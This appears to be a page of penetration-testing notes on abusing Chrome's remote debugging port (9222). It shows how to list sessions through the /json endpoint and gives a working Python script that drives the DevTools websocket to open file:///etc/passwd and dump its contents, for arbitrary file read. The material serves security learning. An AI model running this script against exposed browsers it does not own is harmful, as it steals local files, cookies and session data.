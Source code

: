 ```yaml
---
description: The Chrome DevTools protocol for Remote Debugging
---
```


# Chrome Remote DevTools

When `google-chrome` is launched with remote debugging enabled, this is usually on port 9222. But it can be changed with the `--remote-debugging-port=` argument when it is started.&#x20;

When this port is accessible, you can connect to it with the [DevTools HTTP Protocol](https://chromedevtools.github.io/devtools-protocol/#endpoints) in order to make the browser do certain things. You can debug the currently viewed site, meaning reading any data, like HTML, cookies, or other stored data, and execute JavaScript in the console. As well as being able to browse to and **read arbitrary files** on the system.&#x20;

Get a list of sessions by requesting `/json` endpoint:

{% code title="http://localhost:9222/json" %}
```json
[ {
  "description": "",
  "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/DAB7FB6187B554E10B0BD18821265734",
  "id": "DAB7FB6187B554E10B0BD18821265734",
  "title": "Yahoo",
  "type": "page",
  "url": "https://www.yahoo.com/",
  "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/DAB7FB6187B554E10B0BD18821265734"
} ]
```
{% endcode %}

You can then visit the `devtoolsFrontendUrl` in your browser to get a regular GUI that you would get debugging any site. Here you can do anything normal DevTools would be able to, like executing JavaScript, reading stored data, and viewing the site.&#x20;

In the background, this will send various messages through the `webSocketDebuggerUrl`, which you can also directly access to have more control, and not be limited by the GUI. One interesting way of abusing this is to first **navigate** to a `file://` URL ([`Page.navigate`](https://chromedevtools.github.io/devtools-protocol/tot/Page/#method-navigate)), and then request the HTML content of the page using JavaScript ([`Runtime.evaluate`](https://chromedevtools.github.io/devtools-protocol/tot/Runtime/#method-evaluate)) to read arbitrary files. You can simply connect to the websocket in Python like so:

```python
from time import sleep
import requests
import websocket
import json


def page_navigate(ws, url):
    payload = {
        "id": 1,
        "method": "Page.navigate",
        "params": {
            "url": url
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())


def get_current_html(ws):
    payload = {
        "id": 2,
        "method": "Runtime.evaluate",
        "params": {
            "expression": "document.documentElement.outerHTML"
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())["result"]["result"]["value"]


targets = requests.get("http://localhost:9222/json").json()
websocket_url = targets[0]["webSocketDebuggerUrl"]

ws = websocket.create_connection(websocket_url)
sleep(1)
print(page_navigate(ws, "file:///etc/passwd"))
sleep(3)
print(get_current_html(ws))
```

_Reference for this code was the_ [_Chrome Debugger metasploit module_](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/chrome\_debugger.rb)

